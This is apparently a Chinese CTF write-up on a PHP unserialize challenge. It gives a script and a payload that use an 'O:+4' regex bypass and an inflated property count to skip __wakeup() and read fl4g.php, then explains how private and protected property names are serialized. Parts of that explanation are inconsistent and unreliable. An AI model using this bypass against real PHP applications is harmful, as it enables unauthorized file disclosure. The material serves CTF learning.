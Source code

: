 感觉挺有意思的一道题

先构造序列化对象，然后手动修改

O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
    $fl4g = new Demo('fl4g.php');
	$var = serialize($fl4g);
	echo $var."\n";

	$var = str_replace('O:4','O:+4',$var);	#用+4替换成4是为了绕过preg_match()的正则匹配
	echo $var."\n";
	$var = str_replace(':1:',':2:',$var);		#绕过__wakeup()魔术方法
	echo $var."\n";
	echo strlen($var)."\n";
	$var = base64_encode($var);	
	echo $var."\n"."\n";
	
	$input = 'O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}';
    echo $input."\n";
	echo strlen($input)."\n";
	$input = base64_encode($input);
	echo $input."\n";
 ?>

```

然后发现你手动输入的并不是真正的输入，会有两个字符长度的差距导致base64编码后的结果也不一样。（卡我了一年）

var 和 public 声明的字段都是公共字段，因此它们的字段名的序列化格式是相同的。公共字段的字段名按照声明时的字段名进行序列化，但序列化后的字段名中不包括声明时的变量前缀符号$。
protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上\0\0的前缀。这里的\0表示 ASCII 码为0的字符，而不是\0组合。
  private声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，字段名前面会加上\0\0的前缀。这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。
  字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。字符串长度也包括所加前缀的长度。其中\0字符也是计算长度的。

  所以这里的private $file = ‘index.php’;中private在被序列化的时候给Demofile（类名属性名）中的类Demo前后分别加上一个了\0，导致Base64编码的值不同。
  如果这里的声明是public，被序列化后的属性名就只是file（属性名）。
  通过给赋值粘贴的字符串中的Demofile中的类Demo前后也分别加上一个了\0，可以验证上面的结论：

序列化结果为：
O:6:"class1":3:{s:1:"a";s:1:"1";s:4:"*b";s:5:"ThisB";s:9:"class1c";s:5:"ThisC";}
对象序列化后的结构为：
O:对象名的长度:"对象名":对象属性个数:{s:属性名的长度:"属性名";s:属性值的长度:"属性值";}
a是public类型的变量，s表示字符串，1表示变量名的长度，a是变量名。
b是protected类型的变量，它的变量名长度为4，也就是b前添加了%00*%00。所以，protected属性的表示方式是在变量名前加上%00*%00。
c是private类型的变量，c的变量名前添加了%00类名%00。所以，private属性的表示方式是在变量名前加上%00类名%00。
虽然Test类中有test1方法，但是，序列化得到的字符串中，只保存了公有变量a，保护变量b和私有变量c，并没保存类中的方法。也可以看出，序列化不保存方法。

下次就记得了

